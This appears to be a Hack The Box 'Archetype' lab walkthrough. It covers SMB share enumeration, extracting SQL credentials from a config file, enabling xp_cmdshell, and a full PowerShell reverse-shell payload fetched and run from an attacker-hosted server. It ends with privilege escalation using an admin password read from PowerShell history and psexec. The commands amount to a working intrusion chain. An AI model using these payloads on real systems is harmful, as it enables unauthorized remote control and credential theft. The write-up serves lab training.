## Recon

```
nmap <target ip address>
```



>  smb service , connect with smbclient 

```
smbclient -N -L \\\\<target ip address>\\
```



> Find **backups** directory 

```
smbclient -N \\\\<target ip address>\\backups
```

> then check the **backups** directory with```dir``` and get the file in **backups** 

``` 
get prod.dtsConfig
```

> It will store file in the current directory 





> Read this file , and we can get the sql password for ARCHETYPE\sql_svc





## Low Permission exploit

> In here, we need to use this login account to loing to SQL Server 
> Tools : [Impacket - mssqlclient](https://github.com/SecureAuthCorp/impacket)
> Impacket 下有一個 ```mssqlclient.py``` 的工具可以用來建構與MS SQL Server 連線溝通的通道



 > enable_xp_cmdshell

```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```
> with xp_cmdshell , We can execute some command , but we also know that the permission is not administrator 
>  but we still can try to write a reverse shell then upload and execute on victim server by xp_cmdshell

---

>  Reverse shell payload 
>   uncomment the necessary part 
>    set the attack ip address and the port(nc listen port)

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.

$client = New-Object System.Net.Sockets.TCPClient('ip_address',<nc listen port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('ip_address',<nc listen port>)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}

```




> Create the python simpleHTTPServer

```
python3 -m http.server 80
```



> Using nc to listen a port for accepting the reverse shell 

```
nc -lvnp 443
```



> Using xp_cmdshell to Dowload the reverse shell from the remote server(python simplehttpserver)
> Execute it by xp_cmdshell

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<ip_address>/Invoke-PowerShellTcpOneLine.ps1\");""
```



> Check nc part , it will get the Powershell 



> Get flag in the ```C:\\Users\sql_svn\Desktop\```
> Use type to read file(```user.txt```)



##  Privilege Escalation

> Tools :　[Impacket - psexec](https://github.com/SecureAuthCorp/impacket)
> Get the administrator account / password

```
type C:\\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



> admin / MEGACORP_4dm1n!!

```
python3 psexec.py administrator@<victim ip address>
```



> Get flag 



## Reference 

- [Hack the Box - Starting Point: Archetype](https://www.linkedin.com/pulse/hack-box-starting-point-archetype-nathan-barnes/)
- [Running curl via powershell ](https://stackoverflow.com/questions/30807318/running-curl-via-powershell-how-to-construct-arguments)
- [How to Resolve the “cannot connect to the Docker daemon” Error](https://phoenixnap.com/kb/cannot-connect-to-the-docker-daemon-error)
- [Example applications Symbolic names and the Domain Name System (DNS)](https://slideplayer.com/slide/7020976/)
- [Starting Point — Archetype](https://artilleryred.medium.com/starting-point-archetype-de3378acc615)

###### tags: `HackTheBox` `Windows`